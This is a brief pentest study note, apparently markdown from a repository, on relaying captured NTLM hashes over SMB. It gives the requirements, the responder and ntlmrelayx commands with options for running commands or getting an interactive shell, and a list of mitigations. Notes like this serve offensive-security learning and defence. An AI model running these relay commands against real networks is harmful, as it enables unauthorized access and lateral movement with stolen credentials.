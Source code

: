 Sometimes, we're unable to crack the hashes that we recovered. In that case, we can just relay those hashes to specific machines and potentially gain access.<br><br>
There are a specific set of requirements we must meet for this to work:
- SMB Signing must be DISABLED on the target.
- Relayed user credentials must preferrably be ADMIN.

## Exploitation
Assuming SMB Signing has been disabled on the target, start with a confirmation scan:
```bash
nmap -script=smb2-security-mode.nse -p 445 TARGET-IP
```
In order to relay the hashes, we'll need to edit the configuration file [responder.conf] with SMB to 'Off' and HTTP to 'Off'.<br>
Then proceed with listening for events:
```bash
sudo responder -I eth0 -dPv
```
As well as, set up a relay:
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
*You can also add the following flags: 
- i for interactive mode (if you're using this mode, create a listener on the specified port)
- c for executing commands

## Mitigation
- Enable SMB signing on all devices (bare in mind, this can cause performance issues with file copies especially on legacy systems)
- Disable NTLMv1 authentication on network (If Kerberos stops working, Windows defaults back to NTLMv1)
- Account Tiering (Check AD Tier Modeling)
- Local admin restriction (Use LAPS to save yourself from the amount of potential increase in service desk tickets)
